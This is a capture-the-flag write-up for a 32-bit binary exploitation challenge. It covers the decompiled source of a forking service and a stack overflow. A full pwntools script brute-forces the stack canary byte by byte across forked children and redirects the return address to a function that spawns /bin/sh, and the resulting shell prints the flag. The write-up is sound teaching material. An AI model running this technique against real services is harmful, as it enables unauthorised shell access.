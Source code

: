# 8^256 (exploitation, 300 points)

> Hello, welcome to my little forking binary I made it special just for you I hope you don't disappoint me.

## Files:

- canary
```
❯ file canary
canary: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=af7281a274f54c7eb47e70ca66e6fd54024ebdb8, not stripped
```

## Solution:

We have a 32-bit x86 executable: to Ghidra we go!

```c
void main(void)

{
  int in_GS_OFFSET;
  int local_1c;
  __pid_t local_18;
  undefined4 local_14;
  undefined *puStack_c;
  
  puStack_c = &stack0x00000004;
  local_14 = *(undefined4 *)(in_GS_OFFSET + 0x14);
  puts("Hello, welcome to my little forking binary");
  puts("I made it special just for you");
  puts("I hope you don\'t disappoint me.");
  while( true ) {
    local_18 = fork();
    if (local_18 == 0) break;
    waitpid(local_18,&local_1c,0);
  }
  puts("\nForked proccess...");
  handle();
  puts("... and exited successfully!");
                    /* WARNING: Subroutine does not return */
  _exit(0);
}

void handle(void)

{
  ssize_t sVar1;
  size_t __nbytes;
  int ch;
  int in_GS_OFFSET;
  char buffer [128];
  int canary;
  
  canary = *(int *)(in_GS_OFFSET + 0x14);
  puts("I am the forked process!");
  puts("How much data would you like to read?");
  sVar1 = read(0,buffer,0x7f);
  buffer[sVar1 + 1] = '\0';
  __nbytes = atoi(buffer);
  memset(buffer,0,0x80);
  printf("Give me %d bytes of data\n",__nbytes);
  read(0,buffer,__nbytes);
  do {
    ch = getchar();
    if (ch == 10) break;
  } while (ch != -1);
  puts("Exiting...");
  if (canary != *(int *)(in_GS_OFFSET + 0x14)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

We see that `main` just forks the process over and over, and `handle` is the actual logic. We'll come back to the fork soon.

Let's take a look at `handle`. It asks us for how much data we want to read, and then allows us to read in an arbitrary amounts of data.

Surely nothing can go wrong with that, ri-

![aaaaaaaaaaaaaaaa](https://media1.tenor.com/m/2WMaBBmy40oAAAAd/cat-aaa-scream-keyboard-acer-laptop.gif)

-ght?

```
Hello, welcome to my little forking binary
I made it special just for you
I hope you don't disappoint me.

Forked proccess...
I am the forked process!
How much data would you like to read?
180
Give me 180 bytes of data
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Exiting...
*** stack smashing detected ***: terminated

Forked proccess...
I am the forked process!
How much data would you like to read?
```

Right... stack canaries.

This is where the forked process comes into play. Since we fork, we do not generate a new canary, and thus we can brute force the canary!

Since we're able to write an arbitrary amount of memory, we can try writing one byte at a time. If we have the right canary value, the program will just exit normally. Once we know the canary, we can redirect function to the `give_shell` function that we found in Ghidra:

```c
void give_shell(void)

{
  system("/bin/sh");
  return;
}
```

Our solve script is thus:

```python

import time

from pwn import *

win = 0x0804861b

# con = process('canary')
con = remote('0.cloud.chals.io', 27190)

buffer = 0xffffd9bc
canary = 0xffffda3c
ebp = 0xffffda48

correct_canary = b'\x00'

for b in range(3):
    for i in range(256):
        print(i)
        payload = b'a' * (canary - buffer) + correct_canary + bytes([i]) 
        l = len(payload)
        res = con.recvuntil(b'How much data would you like to read?', timeout=1)
        con.sendline(str(l).encode())
        con.recvuntil(b'bytes of data')
        con.sendline(payload)
        res = con.recvuntil(b'Forked proccess...')
        if b'and exited successfully!' in res:
            correct_canary += bytes([i])
            print(correct_canary.hex())
            break

payload = b'a' * (canary - buffer) + correct_canary + b'a' * 8 + b'FPFP' + p32(win)
l = len(payload)
res = con.recvuntil(b'How much data would you like to read?', timeout=1)
con.sendline(str(l).encode())
con.recvuntil(b'bytes of data')
con.sendline(payload)
con.interactive()
```

But wait, aren't there four bytes to the canary? Why are you only brute forcing 3?

There's a fun property of Linux stack canaries: their least significant byte is always `0x00`. This is to prevent various C string-based attacks, since they will stop at the null byte. However, we can use this to cut down our search space by 25%.

After running the script for a bit, we can find all the bytes of the canary, then send the right canary to make it seem as if nothing ever happened! Except, we've left a bit of a present in the return address.

```
❯ python3 solve.py
[+] Opening connection to 0.cloud.chals.io on port 27190: Done
0
...
221
00dd
0
...
135
00dd87
0
..
64
00dd8740
[*] Switching to interactive mode

Exiting...
$ $ ls
canary    canary.c  flag.txt
$ $ cat flag.txt
flag{but_is_it_cookie_or_canary_though}
```
